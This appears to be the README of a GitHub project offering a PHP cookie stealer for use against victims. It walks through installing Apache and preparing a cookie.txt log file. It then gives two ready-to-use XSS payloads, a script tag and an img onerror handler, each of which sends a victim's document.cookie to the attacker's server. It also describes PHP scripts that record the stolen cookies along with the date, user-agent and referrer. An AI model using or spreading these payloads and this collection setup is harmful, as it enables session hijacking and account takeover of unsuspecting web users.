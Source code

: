 # cookie-stealer
simple cookie stealer in PHP

## usage
#### step1 - start web server on your web server
```
sudo apt update && apt upgrade -y
sudo apt install apache2
sudo systemctl start apache2
```

#### step2 
clone the repository in ``` /var/www/html/ ``` directory
and go to the repository directory then give 'cookie.txt' read/write premission.
```
chmod 777 cookie.txt
```

#### step3
now if any cookie or data sent to your webserver by your link, it'll save in the cookie file.
example of a link:
```
http://192.168.1.135/p1.php?txt=your-data
```

#### Payload
here is some payload for vulnerabilities like XSS to steal the cookies of your victim:
```
<script>window.location="http://your-server-ip-or-domain/cookie-stealer/p1.php?txt="+document.cookie</script>
<img src=/ onerror=window.location="http://your-server-ip-or-domain/cookie-stealer/p1.php?txt="+document.cookie></img>
```

### p1.php
p1.php is a basic version of cookie stealer that receives and stores just the value of the txt parameter.

### p2.php
p2.php stores more data from the victim. you can store ``` date user-agent referrer ``` too.


### p3.php
p3.php is used to clear the content of cookie.txt file.
